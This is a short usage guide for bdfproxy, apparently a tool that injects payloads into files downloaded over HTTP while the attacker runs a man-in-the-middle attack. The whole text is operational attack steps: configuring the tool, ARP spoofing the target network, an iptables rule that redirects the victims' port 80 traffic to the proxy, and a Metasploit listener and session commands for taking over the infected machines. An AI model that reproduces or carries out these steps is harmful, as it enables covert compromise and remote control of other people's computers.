 # bdfproxy.

Inject payloads on downloads on the fly. __You need to be MITM to use this tool__.

## Usage example

1. Set IP address `HOST` and `proxyMode = transparent` in config `/etc/bdfproxy/bdfproxy.cfg`
  * If you are targeting a Windows machine, select proper config section i.e `[[[WindowsIntelx86]]]`
2. Start tool `./bdfproxy.py`
3. Start ARP spoofing (MITM)
4. Redirect intercepted traffic from bettercap to bdfproxy `iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080`
5. Start listening for connections `msfconsole -r /user/share/bdfproxy/bdf_proxy_msf_resource.rc`

### Access sessions

You can then access sessions from _msfconsole_ by pressing enter while listening to connections and:

```
sessions -l
sessions -i <id>
```
